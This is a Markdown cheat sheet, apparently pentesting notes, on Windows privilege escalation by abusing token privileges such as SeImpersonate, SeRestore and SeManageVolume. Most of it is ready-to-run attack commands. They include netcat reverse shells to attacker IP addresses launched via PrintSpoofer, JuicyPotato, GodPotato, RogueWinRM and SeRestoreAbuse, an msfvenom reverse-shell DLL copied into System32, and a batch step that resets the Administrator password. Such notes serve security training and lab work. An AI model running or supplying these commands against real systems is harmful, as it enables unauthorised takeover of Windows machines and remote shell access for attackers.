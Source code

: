 
### Privileges
- Paper: [Abusing Token Privileges For EoP](https://github.com/hatRiot/token-priv)
- List your privileges: `whoami /priv`, see also https://github.com/gtworek/Priv2Admin
  - `SeImpersonatePrivilege`
  - `SeAssignPrimaryPrivilege`
  - `SeBackupPrivilege`
  - `SeRestorePrivilege`
  - `SeTakeOwnershipPrivilege`
  - `SeTcbPrivilege`
  - `SeCreateTokenPrivilege`
  - `SeLoadDriverPrivilege`
  - `SeDebugPrivilege`
- More privs: [FindSuspiciousPermissions.ps1](https://github.com/fashionproof/FindSuspiciousPermissions/blob/main/FindSuspiciousPermissions.ps1)

**AlwaysInstallElevated**
- You can run any `.msi`

**SeLoadDriverPrivilege**
- https://0xdf.gitlab.io/2020/10/31/htb-fuse.html#strategy
- https://www.tarlogic.com/blog/seloaddriverprivilege-privilege-escalation/
- See also [HackTheBox Fuse](https://app.hackthebox.com/machines/Fuse)

**SetRestorePrivilege**
- `./SeRestoreAbuse.exe "C:\temp\nc.exe 192.168.45.238 445 -e powershell.exe"`

**SeManageVolumePrivilege**
1. `.\SeManageVolumeAbuse.exe`
2. `msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.215 LPORT=445 -f dll -o tzres.dll`
3. `cp tzres.dll C:\Windows\System32\wbem\`

**SeImpersonatePrivilege**

PrintSpoofer
- `.\PrintSpoofer.exe -i -c powershell.exe`
- `.\PrintSpoofer.exe -i -c "\\192.168.45.156\Share\nc.exe 192.168.45.156 443 -e cmd.exe"`

JuicyPotato
- `.\JuicyPotato.x86.exe -t * -p "\\10.10.14.10\Share\nc.exe 10.10.14.10 88 -e cmd.exe" -l 443`
- `.\JuicyPotato.exe -t * -p C:\User\mario\root.bat -l 9001 -c {A9B5F443-FE02-4C19-859D-E9B5C5A1B6C6}`
  - In `root.bat`, use the following once at time
    ```
    whoami /all > C:\Users\Public\proof.txt   <# verify that you are authority #>
    net user Administrator abc123!            <# modify Administrator password to then login with psexec #>
    ```
  - See here for CLSID for the value of the flag `-c`: https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Enterprise

Other
- `.\GodPotato-NET4.exe -cmd "\\192.168.45.156\Share\nc.exe 192.168.45.156 443 -e cmd.exe"`
  - Affected version: Windows Server 2012 - Windows Server 2022 Windows8 - Windows 11
- `.\RogueWinRM.exe -p "\\10.10.14.26\Share\nc.exe" -a "-e cmd.exe 10.10.14.26 88"`
  